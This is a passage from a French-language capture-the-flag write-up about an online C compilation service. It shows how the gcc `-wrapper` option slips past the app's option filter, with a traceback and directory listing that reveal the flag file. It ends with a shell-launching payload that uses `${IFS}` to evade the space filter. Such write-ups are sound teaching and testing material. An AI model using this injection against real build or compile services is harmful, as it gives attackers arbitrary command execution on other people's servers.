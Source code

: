 Toutefois, en pensant à adapter le premier payload ouvrant un shell, on constate que `-wrapper` n'est pas correctement filtré:

![wrapper](./wrapper.png)

On peut donc effectuer un `pwd` et constater que l'application Flask lancée par `__init__.py` filtre les options à bannir et vérifie que leur syntaxe est correcte:

```
Compilation Error.

Traceback (most recent call last):
  File "/data/app/__init__.py", line 77, in compile_code
    with open(file_name[:-2], 'rb') as binary_file:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/2d345033d3dbcc23bc368b36d46a4ef47b9c41a42f5965fa7d57bd697b60ae44'


 Output:

15e94765365729ab9599cd8ba2a4634aa8bcd9ec3961daf633f611d9f575a48b
app
flag-d66f8a09eb837545e857994ab28a3ed635d5c4c7c7caa710d28111a536b42422.txt
requirements.txt
venv
```

Il ne reste plus qu'à afficher le flag, en fournissant en argument:

```bash
gcc main.c -wrapper /bin/sh,-s,-c,cat${IFS}/data/flag-d66f8a09eb837545e857994ab28a3ed635d5c4c7c7caa710d28111a536b42422.txt
```
